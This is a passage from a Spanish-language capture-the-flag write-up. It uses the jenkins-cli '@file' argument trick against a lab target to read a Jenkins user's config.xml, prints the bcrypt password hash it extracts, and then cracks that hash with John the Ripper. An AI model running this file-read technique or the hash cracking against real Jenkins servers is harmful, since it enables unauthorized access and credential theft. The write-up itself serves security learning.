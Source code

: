 Asi que deducimos que en esta instancia de jenkins tambien ocurre lo mismo por lo tanto visualizamos lo que se encuentra en este archivo con esa nueva ruta

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://{target_IP}:8080' connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```

![s2.14](./imgs-builder/i23.png)

De todo este mar de informacion solo nos importa es el passwordhash

```bash
<passwordHash>$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a<passwordHash>
```

![s2.15](./imgs-builder/i24.png)

guardamos el hash en un archivo y usamo john (herramienta de descifrado de contraseñas y hashes de seguridad)

> Nota.- las claves decifradas con john se almacenan en el archivo ~/.john/john.pot

![s2.16](./imgs-builder/i25.png)
